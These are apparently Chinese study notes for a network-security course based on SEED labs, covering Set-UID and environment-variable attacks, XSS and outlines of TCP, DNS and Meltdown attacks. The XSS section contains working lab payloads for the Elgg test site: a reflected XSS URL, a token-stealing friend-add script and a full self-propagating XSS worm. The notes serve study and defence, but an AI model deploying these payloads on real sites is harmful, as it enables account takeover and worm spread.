* 子进程可以继承父进程的所有环境变量。在继承之后**父进程更改环境变量子进程不会同步更改**
* 用`Execve`调用新进程，可以在`Execve`中设置 `char *const envp[]`进行环境变量的传输
* 文件系统知识：/proc是Linux的虚拟文件夹，他是包含每个就能成的目录（如`/proc/XXX/environ`存放XXX进程环境变量）
* Shell命令变量与环境变量不同。shell启动时会复制环境变量，但对shell变量的更改不会影响到环境变量
* 环境变量的攻击面：用户`SetUID()` 可以变为管理员权限
* `SetUID`概念：每个进程都有两个ID, 而访问控制基于EUID也就是我们可以设置的UID

打印包含关键词的环境变量命令： `$ env | grep PWD`

设置新的环境变量：`$ export test_env=aaa`

c语言获取环境变量的两种方式：

```c
//第一种
void main(int argc, char * argv[], char * envp[])   ###envp就收环境变量
​
​
//第二种
extern char ** environ;
​
```

注：`envp`和`environ`最初指向同一个地方，但是`envp`只能在主函数中调用，`environ`属于全局变量。更改`environ`之后，`envp`并不会发生变化，除非主函数重新调用

*   Set-UID Programs

    使用`chmod`赋值时最高位0就是`setuid`的位置，可以通过将首位设为4来设置`setuid`位:

    `$ sudo chown root elf`

    `$ sudo chmod 4755 elf`
*   LD\_LIBRARY\_PATH

    是动态库的查找路径，由于动态链接器的保护机制，这个变量不会出现在子进程的环境变量中，所以子进程无法获取LD\_LIBRARY\_PATH的值
* 动态链接器攻击：通过更改环境变量将本该调用的某些正常系统函数链接成调用我们写的恶意函数
* 攻击对比:
  * 与`system`相比，`execve`攻击面小，因为`execve`并不调用shell，不受环境变量的影响。
  * `execve`本质是把当前程序的数据、代码包括环境变量区全部覆写了，`execve`可以通过导入extern char \*\* environ 对全据变量进行给更改，`execve("/usr/bin/env", argv, environ); ##在环境变量中加入了"/usr/bin/env”变量`
  * system原理是调用shell, 其过程可以看作 `/bin/sh -c`

***

### **CH5 WEB应用攻击** && LAB7-8

#### web应用基础

（架构和基本内容）

Web应用基本原理的三个核心：Web客户端、Web服务器和HTTP协议

<figure><figcaption></figcaption></figure>

URL统一资源定位符：

```
http://<user>:<password>@<host>:<post>/<path>?<query>#<frag>
```

#### Web客户端攻击——XSS攻击

（定义、同源策略、**危害、代码漏洞分析及利用方法、类型和防范措施**）

XSS: Cross-Site Scripting 跨站脚本

**定义**

由于web程序对用户输入的**过滤不足**导致的，攻击者输入特定的数据，这些数据会变成在用户浏览器程序中运行的**JavaScript脚本或HTML代码**以达到攻击者意图

**同源策略**

**协议相同，域名相同，端口相同**

同源策略是一种重要的安全策略，用于限制一个源的文档或脚本如何与另一个源的资源进行交互

在同源策略中，“源”指的是**协议、域名和端口**三者的组合

同源策略阻止了来自不同源的脚本对当前源的文档或脚本进行读取或操作

虽然同源策略旨在防止跨源脚本执行，但XSS攻击本质上是在受害者的浏览器上执行恶意脚本，而这些脚本通常被视为是从受信任源（即受攻击的网站）加载的。因此，**XSS攻击实际上是一种绕过同源策略的手段**。XSS攻击利用了同源策略的漏洞，即允许来自同一源的所有脚本执行，而不考虑它们是否安全或受信任

**类型**

1.  **反射型**（非持久型XSS攻击）

    攻击者输入的脚本**直接返回被攻击者的浏览器**

    常见的方式就是在URL中附带恶意脚本

    `http://www.example.com/test.php?user=<script> alert('hahahah') </script>`
2.  **存储型**（持久型XSS攻击）

    攻击者输入的脚本**存储于Web服务器**

    一般出现在网站的留言、评论或日志等位置，受害者浏览这些信息时触发
3.  **DOM型**

    DOM是文档对象模型，浏览器对Web网页及内容的抽象标识模型

    攻击者利用Web网页中的JavaScript代码漏洞而执行攻击脚本的XSS攻击

    如JavaScript代码直接使用URL中参数，并且没有过滤或消毒时会遭到DOM型XSS攻击

**利用方式**

1.  Cookie窃取

    通过JS代码访问`document.cookie`即可获取当前服务器的Cookie信息

    **Lab7** 实验从受害者机器上窃取Cookie信息的XSS攻击代码，发送到攻击者处port 5555 ，IP10.9.0.1：

    ```html
    <script>document.write('');</script>
    <!--
    当JavaScript插入img标记时，浏览器会尝试从src字段中的URL加载图像，这将导致向攻击者的机器发送HTTP GET请求，请求时附带窃取到的cookie，攻击者监听报文即可窃取到cookie
    -->
    ```
2.  会话劫持

    攻击者利用XSS攻击，冒用合法者的会话ID进行网络访问的一种方式

    **LAB7** 实现添加好友功能的XSS攻击：

    利用`window.onload = function() { ... }`发起Ajax请求， `window.onload`指定当整个页面（包括所有依赖的资源，如图片、样式表等）完全加载完成后应该执行的函数。

    ```html
    <script type="text/javascript">
    window.onload = function () {
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; 
    var token="&__elgg_token="+elgg.security.token.__elgg_token; 
    var sendurl="http://www.seed-server.com/action/friends/add?friend=56"+ts+token;
    var Ajax=null;
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
    }
    </script>
    ```
3. 网络钓鱼
4. 信息探测
5. 网页挂马
6.  XSS蠕虫

    **LAB7** 编写自传播的DOM方法XSS蠕虫：

    ```html
    <script id='worm' type='text/javascript'>
    window.onload = function(){
    var headerTag = "<script id=\'worm\' type=\'text/javascript\'>";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>"; 
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);   
    var guid = elgg.session.user.guid;
    var userName=elgg.session.user.name;
    var guid="&guid="+elgg.session.user.guid;
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
    var token="&__elgg_token="+elgg.security.token.__elgg_token;
    var content= token + ts + "&name=" + userName + "&description=<p>Hacked by XSS  WORM"+ wormCode + "     &accesslevel[description]=2&briefdescription=&accesslevel[briefdescription]=2&location=&accesslevel[location]=2&interests=&accesslevel[interests]=2&skills=&accesslevel[skills]=2&contactemail=&accesslevel[contactemail]=2&phone=&accesslevel[phone]=2&mobile=&accesslevel[mobile]=2&website=&accesslevel[website]=2&twitter=&accesslevel[twitter]=2" + guid;
    var sendurl = "http://www.seed-server.com/action/profile/edit"
    var AliceGuid=56;
    if(guid!=AliceGuid){
    var Ajax=null;
    Ajax=new XMLHttpRequest();
    Ajax.open("POST",sendurl,true);
    Ajax.setRequestHeader("Host","www.seed-server.com");
    Ajax.setRequestHeader("Content-Type",
    "application/x-www-form-urlencoded");
    Ajax.send(content);
    }
    }
    </script>
    ```

判断**JavaScript脚本**的安全措施，**分析JavaScript脚本的漏洞**

#### 示例：分析JavaScript脚本的漏洞

#### DOM操作

下JavaScript代码片段：

```javascript
document.getElementById('myElement').innerHTML = untrustedInput;
​
var userName = document.getElementById('username').value; // 用户输入
document.getElementById('welcome-message').innerHTML = 'Welcome, ' + userName + '!';
​
```

`untrustedInput`是一个未经验证和清理的用户输入。这段代码容易受到XSS攻击，因为恶意的输入可以被直接插入到HTML中，被浏览器执行。

**安全风险**：直接将用户输入作为HTML插入到页面中，可能导致XSS攻击。

**解决方案**：使用 `innerText` 或 `textContent` 而不是 `innerHTML`，或者对用户输入进行适当的HTML转义。


**Cookie 操作**

```javascript
javascriptCopy code
document.cookie = "sessionToken=" + sessionToken; // 敏感信息
```

**安全风险**：敏感信息（如会话令牌）存储在 cookie 中可能被窃取。

**解决方案**：为敏感cookie设置 `Secure` 和 `HttpOnly` 标志，确保它们只在安全的连接中传输，并防止JavaScript访问。

#### Web服务器攻击——SQL注入攻击

（定义类型、注入步骤、提权方法、暴库定义、防范措施）

HTTP会话攻击及防御

### CH6 假消息攻击

包嗅探和欺骗的原理及攻击思路

* **TCP通信代码及流程**（序号、扫描、标志位）
* **IP欺骗攻击和防范**

什么是TCP协议

* TCP协议的攻击原理
* SYN flooding攻击原理及步骤
* **TCP会话劫持攻击原理和步骤**
  * TCP攻击劫持以后终端冻结原因：TCP劫持以后攻击者发送数据包使seq和ack变化，原始受害者的seq和ack无效，服务端不进行响应

DNS攻击

* 域名结构
* 查询过程
* **DNS攻击类型及原理（**本地**&远程缓存中毒攻击）**
* 恶意DNS服务器的回复位置攻击（了解即可）
* 防范措施

### CH7 熔断与幽灵攻击

CPU缓存原理

**测信道攻击原理**

熔断攻击思路和幽灵攻击思路

### CH8 追踪溯源技术

追踪溯源技术概述、面临的挑战

典型技术、发展趋势
